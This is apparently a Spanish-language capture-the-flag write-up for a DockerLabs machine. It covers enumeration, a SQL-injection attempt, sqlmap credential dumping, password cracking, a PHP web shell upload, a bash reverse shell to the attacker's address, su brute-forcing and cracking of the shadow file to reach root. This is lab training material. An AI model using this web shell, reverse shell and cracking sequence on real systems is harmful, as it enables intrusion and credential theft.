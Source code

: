 nmap: 80

![image](https://github.com/user-attachments/assets/2ff1e276-c37b-4d4a-8b9f-14d603d06229)


---
entramos a la pagina principal y la verdad no hay mucho, tampoco en el código fuente

![image](https://github.com/user-attachments/assets/d055eff7-403d-4808-8008-e98742cc9f3c)

hacemos un gobuster:
> gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 -x php,html,py,txt

nos da un login.php
![image](https://github.com/user-attachments/assets/44e2f0c3-bf79-4eac-9182-06d47ccae654)

![[login2.png]]

dentro en el buscador colocamos 

    'or 1=1-- -' 

Esto es una inyección SQL que explota vulnerabilidades en consultas a bases de datos como por ejemplo ese login 

Puntos importantes de esa explotación:
> Funciona cuando el sistema no valida correctamente las entradas de usuario
> la base de datos soporta comentarios (--) para ignorar el resto de la consulta

y no funciona cuando:
> hay validación o escape de caracteres en las entradas 
> y el motor de la base de datos no interpreta (--) como comentario.

como en ese login no permite esa inyección probamos creando un usuario y contraseña e ingresamos, lo que logramos es entrar a la pagina de esta forma:
![[panel1.png]]
voy a probar con burpsuite desde donde dice "comprar ahora", capturamos y hacemos una consulta sqlmap con el request que capturamos
![[burp.png]]
ahí se guardo la petición y así que hacemos un sqlmap

    sqlmap -r  request --batch --dump


y nos dio:
![[resultado.png]]
creamos un hash con nano, pegamos la contraseña que nos dio el sqlmap
crackeamos la contraseña con john:

    john --wordlist=/usr/share/wordlists/rockyou.txt hash
 
 me da la contraseña del admin
![[crack.png]]
cerramos sesión e ingresamos con la sesión de admin
al final podemos ver un panel de administración 
vamos a configuraciones > subir archivos.

creamos un phtml ya que con php no sirve y lo buscamos en: https://book.hacktricks.xyz/pentesting-web/file-upload
![[pruebas1.png]]

creamos un php dentro permite la ejecución remota de comandos sin validación

     - <?php
       system($_GET['cmd']);
       ?>

lo subimos:
![[subida1.png]]

después de subir el archivo vamos a uploads  y vemos que esta ahí, comprobamos
![[comprobacion.png]]
ahora colocamos una bash

    http://172.17.0.2/uploads/shell.phtml?cmd=bash -c 'bash -i >%26   /dev/tcp/172.17.0.1/443 0>%261'
    
mientras la terminal nuestra esta en escucha y tenemos conexión 
![[dockerlabs/medio/apolos/conexion1.png]]
entramos y ahora escalamos.

encontré que para escalar se utiliza "su-bruteforce" , buscamos alguna forma y encontré:
https://github.com/d4t4s3c/suForce
utilizamos este diccionario: https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/techyou.txt
![[diccionario.png]]

nos pasamos el suforce y techyou.txt por wget abriendo un servidor en nuestro terminal con python3.
pasamos dos diccionarios por si acaso, ahora iniciamos la fuerza bruta
después de un rato nos da la contraseña de luis
![[contraseña1.png]]
nos pasamos al otro usuario

muestra que para escalar a root esta el grupo "shadow" que se vio con el id
![[shadows.png]]
buscando encontré una posible contraseña:
![[paso1.png]]
dejamos un txt así: cosa que podamos sacar  la contraseña 
![[paso2.png]]
de la mejor forma es hacer el ataque en nuestra  terminal con el comando:

        john --wordlist=/usr/share/wordlists/rockyou.txt shadows.txt

y nos da la contraseña: rainbow2

su root / rainbow2
![[dockerlabs/medio/apolos/root.png]]
y somos root!
